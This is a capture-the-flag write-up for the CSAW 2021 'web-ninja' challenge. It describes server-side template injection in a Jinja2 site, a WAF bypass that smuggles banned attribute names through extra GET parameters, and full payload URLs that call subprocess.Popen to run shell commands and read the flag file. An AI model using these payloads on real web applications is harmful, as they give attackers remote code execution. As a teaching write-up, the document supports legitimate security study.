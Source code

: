 # web-ninja

## Description

```
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Task Analysis

A shoutout to [Payloads All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) for being incredibly useful during this challenge.

The link given in the description presents us with the following webpage where the only notable page element is a field for user input:

![webpage](/CSAW-2021/web-ninja/screenshots/the_site.PNG)

When input is submitted, the page displays "Hello " followed by whatever was typed into the submission field.

I confirmed that xss injection was possible. However, this was not helpful to me since the site would not present our malicious scripts to anyone but ourselves. Switching gears, I used Burp to find that the site was built using Python 2.7, and I noted that the challenge's name, "Ninja" could potentially be hinting at the "Jinja" framework. I submitted the following to check for a SSTI vulnerability:
```
{{}}
```
The "{{}}" was not rendered, indicating it had been interpreted as a template and that there was potential for an SSTI injection. 

I used the following to confirm what framework was being used:

```
{{'7'*7}}
```
Which rendered as:
```
Hello 7777777
```
This confirmed my suspicion that Jinja2 was the framework being used. 
After attempting to access the config object using {{config.items()}} I recieved:

```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```
I now knew that there was a WAF to bypass.

Our goals from here were to: 
1. Find a way to bypass the WAF.
2. Create a payload that establishes RCE and allows us to look for the flag, which I suspected was likely stored either in the config object or in the page's working directory.
3. Create a payload that reads the flag and profit.

## Solution
# WAF Bypass
I found that The WAF was designed to only check the contents of the "value" GET parameter. Extra paremters went unchecked, so blacklisted keywords could be included in them and then accessed as strings via the request.args object. These strings could then be passed to the [built-in Jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.attr) ```attr()```. The documentation tells us that ```attr()``` takes a string as an argument to "Get an attribute of an object. foo|attr("bar") works like foo.bar just that always an attribute is returned and items are not looked up..."
Using these features I could bypass the filter using urls constructed with additional get parameters like the following:

```
http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()}}&class=__class__&bas=__base__&sub=__subclasses__
```

The above url returned a list of all the subclasses of the object type, meaning I could access any class loaded in the Python environment. I used a script to search this list for the subprocess.Popen class, and found it at index 258.

# Establishing RCE

I could now use the following url execute the "ls" command and achieve RCE:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27ls%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```

The above produced the following output:

![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

# Found flag
I now knew that the flag was located in the same directory as the site's application script. This meant I could access the flag with the same technique by invoking the "cat" command:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27cat flag.txt%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```
Which produced the following:
![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

I found the flag! - flag{m0mmy_s33_1m_4_r34l_n1nj4}
